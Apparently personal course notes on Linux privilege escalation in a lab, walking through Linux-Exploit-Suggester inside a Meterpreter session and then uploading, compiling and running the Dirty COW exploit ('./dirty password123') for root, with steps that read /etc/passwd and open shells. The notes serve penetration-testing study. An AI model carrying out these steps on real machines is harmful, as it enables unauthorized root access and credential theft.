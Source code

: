 Tools & Environment:

- Linux-Exploit-Suggester: This tool helps detect security deficiencies in a given Linux kernel or Linux-based machine. It utilizes heuristics methods to assess the exposure of the kernel to publicly known Linux kernel exploits.
    - GitHub: [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- Note: The techniques demonstrated in this video are performed on an Ubuntu 12.04 VM.
- be carefull with kernel exploits because it can cause kernel panic and dataloss 

-- Demo -- 

Set up meterpreter session:
	- sysinfo 
	- getuid 
	- obtain a bash sessin: 
		- shell 
		- cat /etc/passwd 
		- sudo apt-get update 
	- obtain root privileges 
		- download LES on kali and then transferring it over to target 
		- in meterpreter session cd /tmp and ls 
		- upload ~/Desktop/Linux-Enum/les.sh 
		- shell 
		- /bin/bash -i 
		- chmod +x les.sh 
		- ls - alps 
		- ./les.sh (this will execute the script)
verify exploit code to ensure that it is not doing anything malicious 

![[Pasted image 20230712152115.png]]
download ![[Pasted image 20230712152149.png]]
to run C you need to install package: sudo apt-get install gcc 
![[Pasted image 20230712175057.png]]
- navigate to the exploit file on your kali 
- rename the file to dirty.c: mv filename dirty.c 
- run gcc command (see exploit-db for command to compile)
- terminate channel 

- go back to meterpreter
	- upload ~/Downloads/dirty 
	- open een shell session 
	- bin bash -i 
	- chmod +x dirty 
	- ./dirty password123
	- when it is not compiled on the system you will get error messages 
	- remove the dirty file (rm) and go back to meterpreter session 
		- upload ~/Download/dirty.c 
		- /bin/bash -i (open shell)
		- run gcc command
		- chmod +x dirty
		- ./dirty password123 
		- 
